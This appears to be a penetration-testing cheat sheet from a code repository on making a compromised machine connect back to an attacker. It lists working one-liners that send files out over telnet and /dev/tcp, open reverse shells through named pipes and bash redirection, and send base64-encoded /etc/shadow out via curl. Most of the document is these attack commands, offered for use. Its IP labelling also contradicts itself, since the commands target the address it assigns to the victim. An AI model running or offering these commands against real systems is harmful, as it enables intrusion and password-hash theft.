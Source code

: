 ===================================
 Connecting one machine to another
===================================

TODO: Divide up into windows and linux

Often we need to get data from a target machine, or make use of a communication channel that's a little awkward to get a reverse shell that we can make use of more easily.  Here we will list a number of ways to get a target machine to talk back to you once you have a toehold.

In the sections below, we make constant reference to machines by IP and have to keep explaining which one is remote, which one is local, etc. So, to simplify, all target machines are 10.10.10.12 and the machine you're working from is 10.10.10.1. Mostly the port used will be 8765. So, if you see these magic numbers, this is what they mean. If there's any reason to deviate it will be explained. The assumption is that you have something listening on your machine with `nc -lp 8765` or similar.


Using Netcat
============

TODO: Write a netcat section.  Big enough that it needs it's own?



Using Telnet
============

Although not as useful in many situations as netcat, telnet can be used to exfiltrate or provide a reverse shell.  First, let's steal data::

  cat /some/file.txt | telnet 10.10.10.12 8765

Fairly simple. Now let's get a reverse shell::
    
  mknod mypipe p
  telnet 10.10.10.12 8765 0<mypipe | /bin/bash > mypipe

What's happening?

- Line 1 creates a named pipe called "mypipe" that we can use to push data in and out.  If we were using netcat's `-e` option, all the interaction would be done for us, but we need to do our own plumbing.
  
- Line 2 is running telnet and connecting to our open port. The first bit of trickery is `0<mypipe` which connects standard input (channel 0) to the pipe such that things going into the pipe get diverted into telnet.  The second part (`| /bin/bash > mypipe`) pipes the output from telnet into a bash shell, which then has it's own output redirected back into the pipe so that it gets connected telnet's input.

TODO: Write something on pipes. Named and unnamed, redirection, standard channels, etc.  With diagrams.
  
Using /dev/tcp
==============

No netcat?  No telnet?  Here's another option...

You can create simple netcat-like connections like this::

  cat /some/file.txt > /dev/tcp/10.10.10.12/8765

Which pushes the contents of `file.txt` into our waiting netcat session.

And making it a shell using black magic fuckery::

  exec 3<>/dev/tcp/10.10.10.12/8765 && bash <&3 >&3

Or::
    
  bash -i >& /dev/tcp/10.10.10.12/8765 0>&1    

As a HTTP request
=================

Sometimes it's easiest to get the data out as an HTTP request.  The benefits are:

- It requires fairly basic tools only. Most systems have soem way to send HTTP requests, such as curl or wget, but could even be done in the URL bar of a browser if you've got access to one.
- It looks like web browsing.  Especially if you can do it on port 80 or 443 (for HTTPS).

There are a number of special tools for running a web server to capture data.  One is given here: ./src/exfiltrate.py

Example exfiltration::

  curl http://10.10.10.12:8765?fname=shadow\&form=b64\&data=`cat /etc/shadow|base64`

    

